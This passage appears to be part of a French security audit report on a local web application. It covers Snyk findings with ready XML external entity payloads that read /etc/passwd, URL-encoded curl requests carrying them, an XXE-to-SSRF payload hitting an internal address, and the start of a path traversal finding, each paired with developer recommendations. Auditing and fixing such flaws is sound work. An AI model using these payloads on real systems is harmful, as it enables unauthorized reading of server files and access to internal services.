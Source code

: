 Requête pour récupérer le contenu de etc/passwd :

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>

Traduite en ascii, ce qui donne : 

curl -k https://localhost:3000/Contract?i=%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%20%3C%21DOCTYPE%20foo%20%5B%20%3C%21ENTITY%20xxe%20SYSTEM%20%22file%3A%2F%2F%2Fetc%2Fpasswd%22%3E%20%5D%3E%20%3CstockCheck%3E%3CproductId%3E%26xxe%3B%3C%2FproductId%3E%3C%2FstockCheck%3E -H "Authorization: Bearer (TokenHere)"

Nous récupérons donc bien par la suite le contenu de etc/passwd, en appellant l'entité file.


### 8. Server-Side Request Forgery (SSRF) (CWE-918) // Indirectement : URL Injection (CWE-601)


- **Snyk :** Une requête HTTP est effectuée en fonction d’une URL potentiellement contrôlée par l'utilisateur.  
- **Explication :** Bien que l’URL soit filtrée pour s'assurer qu’elle commence par `https://localhost`, cette vérification reste fragile face à certaines techniques de contournement.  
- **Recommandation pour les développeurs :** Utiliser une liste blanche d’hôtes autorisés ou une validation stricte sur le format complet de l’URL, y compris IP, port et domaine.

Le contenu xml :

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "http://127.0.0.1:8000/test.txt">
]>
<contract>
    <name>&xxe;</name>
</contract>

Traduit ensuite pour l'inclure dans une requête curl : 

curl -k https://localhost:3000/contract?i=%3C%21DOCTYPE%20foo%20%5B%20%3C%21ENTITY%20xxe%20SYSTEM%20%22http%3A%2F%2F127.0.0.1%3A8000%2Ftest.txt%22%3E%20%5D%3E%20%3Ccontract%3E%3Cname%3E%26xxe%3B%3C%2Fname%3E%3C%2Fcontract%3E -H "Authorization: Bearer (Token Here )"

L'exemple ici n'est pas totalement représentatif de ce que peut réellement faire une ssrf.
Avec cette méthode, qui contourne souvent les protections ( car les droits sont segmentés de base ) on peut tenter d'accéder à des services internes...

Recommendations : Valider et filtrer les url fournies par l'utilisateur, désactiver les fonctionnalités du parser XML (XmlResolver ) pour empêcher les appels réseau inités via des entités éxternes ( XXE --> SSRF )


###  9-10. Local File Intrusion (CWE-829) // Path Traversal (CWE-22)


-Explications : Un utilisateur peut manipuler le paramètre "lang" pour accéder à des fichiers système ou sensibles.
